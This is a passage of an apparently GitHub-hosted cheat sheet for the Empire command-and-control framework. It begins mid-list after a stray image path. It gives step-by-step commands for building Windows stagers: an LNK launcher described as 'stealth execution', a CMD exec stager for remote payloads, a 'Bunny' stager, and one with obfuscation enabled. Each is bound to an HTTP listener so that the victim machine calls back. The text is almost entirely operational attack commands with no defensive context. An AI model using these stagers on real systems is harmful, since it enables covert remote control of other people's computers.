 2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    set Obfuscate True
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows LNK Payload Launcher for Stealth Execution with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_lnk
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Command Execution via CMD for Remote Payloads with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_cmd_exec
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Bunny Exploit Payload for Windows Execution with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_bunny
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------
